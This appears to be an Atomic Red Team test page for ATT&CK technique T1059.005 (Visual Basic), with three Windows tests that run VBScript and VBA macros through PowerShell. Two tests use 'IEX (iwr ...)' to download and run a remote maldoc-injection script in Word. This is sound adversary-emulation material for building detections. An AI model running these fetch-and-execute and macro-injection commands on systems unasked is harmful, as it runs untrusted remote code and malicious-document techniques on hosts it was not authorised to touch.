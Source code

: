# T1059.005 - Command and Scripting Interpreter: Visual Basic

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/005)

<blockquote>Adversaries may abuse Visual Basic (VB) for execution. VB is a programming language created by Microsoft with interoperability with many Windows technologies such as [Component Object Model](https://attack.mitre.org/techniques/T1559/001) and the [Native API](https://attack.mitre.org/techniques/T1106) through the Windows API. Although tagged as legacy with no planned future evolutions, VB is integrated and supported in the .NET Framework and cross-platform .NET Core.(Citation: VB .NET Mar 2020)(Citation: VB Microsoft)

Derivative languages based on VB have also been created, such as Visual Basic for Applications (VBA) and VBScript. VBA is an event-driven programming language built into Microsoft Office, as well as several third-party applications.(Citation: Microsoft VBA)(Citation: Wikipedia VBA) VBA enables documents to contain macros used to automate the execution of tasks and other functionality on the host. VBScript is a default scripting language on Windows hosts and can also be used in place of [JavaScript](https://attack.mitre.org/techniques/T1059/007) on HTML Application (HTA) webpages served to Internet Explorer (though most modern browsers do not come with VBScript support).(Citation: Microsoft VBScript)

Adversaries may use VB payloads to execute malicious commands. Common malicious usage includes automating execution of behaviors with VBScript or embedding VBA content into [Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001) payloads (which may also involve [Mark-of-the-Web Bypass](https://attack.mitre.org/techniques/T1553/005) to enable execution).(Citation: Default VBS macros Blocking )</blockquote>

## Atomic Tests

- [Atomic Test #1 - Visual Basic script execution to gather local computer information](#atomic-test-1---visual-basic-script-execution-to-gather-local-computer-information)

- [Atomic Test #2 - Encoded VBS code execution](#atomic-test-2---encoded-vbs-code-execution)

- [Atomic Test #3 - Extract Memory via VBA](#atomic-test-3---extract-memory-via-vba)

<br/>

## Atomic Test #1 - Visual Basic script execution to gather local computer information

Visual Basic execution test, execute vbscript via PowerShell.

When successful, system information will be written to $env:TEMP\T1059.005.out.txt.

**Supported Platforms:** Windows

**auto_generated_guid:** 1620de42-160a-4fe5-bbaf-d3fef0181ce9

#### Inputs:

| Name     | Description           | Type   | Default Value                                              |
| -------- | --------------------- | ------ | ---------------------------------------------------------- |
| vbscript | Path to sample script | string | PathToAtomicsFolder&#92;T1059.005&#92;src&#92;sys_info.vbs |

#### Attack Commands: Run with `powershell`!

```powershell
cscript "#{vbscript}" > $env:TEMP\T1059.005.out.txt
```

#### Cleanup Commands:

```powershell
Remove-Item $env:TEMP\T1059.005.out.txt -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: Sample script must exist on disk at specified location (#{vbscript})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{vbscript}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -ItemType Directory (Split-Path "#{vbscript}") -Force | Out-Null
Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.005/src/sys_info.vbs" -OutFile "#{vbscript}"
```

<br/>
<br/>

## Atomic Test #2 - Encoded VBS code execution

This module takes an encoded VBS script and executes it from within a malicious document. By default, upon successful execution
a message box will pop up displaying "ART T1059.005"

A note regarding this module, due to the way that this module utilizes "ScriptControl" a 64bit version of Microsoft Office is required.
You can validate this by opening WinWord -> File -> Account -> About Word

**Supported Platforms:** Windows

**auto_generated_guid:** e8209d5f-e42d-45e6-9c2f-633ac4f1eefa

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1059.005\src\T1059.005-macrocode.txt" -officeProduct "Word" -sub "Exec"
```

#### Cleanup Commands:

```powershell
Get-WmiObject win32_process | Where-Object {$_.CommandLine -like "*mshta*"}  | % { "$(Stop-Process $_.ProcessID)" } | Out-Null
```

#### Dependencies: Run with `powershell`!

##### Description: The 64-bit version of Microsoft Office must be installed

##### Check Prereq Commands:

```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  $path = $wdApp.Path
  Stop-Process -Name "winword"
  if ($path.contains("(x86)")) { exit 1 } else { exit 0 }
} catch { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "You will need to install Microsoft Word (64-bit) manually to meet this requirement"
```

<br/>
<br/>

## Atomic Test #3 - Extract Memory via VBA

This module attempts to emulate malware authors utilizing well known techniques to extract data from memory/binary files. To do this
we first create a string in memory then pull out the pointer to that string. Finally, it uses this pointer to copy the contents of that
memory location to a file stored in the $env:TEMP\atomic_t1059_005_test_output.bin.

**Supported Platforms:** Windows

**auto_generated_guid:** 8faff437-a114-4547-9a60-749652a03df6

#### Inputs:

| Name       | Description             | Type   | Default Value |
| ---------- | ----------------------- | ------ | ------------- |
| ms_product | Maldoc application Word | string | Word          |

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1059.005\src\T1059_005-macrocode.txt" -officeProduct "Word" -sub "Extract"
```

#### Cleanup Commands:

```powershell
Remove-Item "$env:TEMP\atomic_t1059_005_test_output.bin" -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: Microsoft #{ms_product} must be installed

##### Check Prereq Commands:

```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```

<br/>
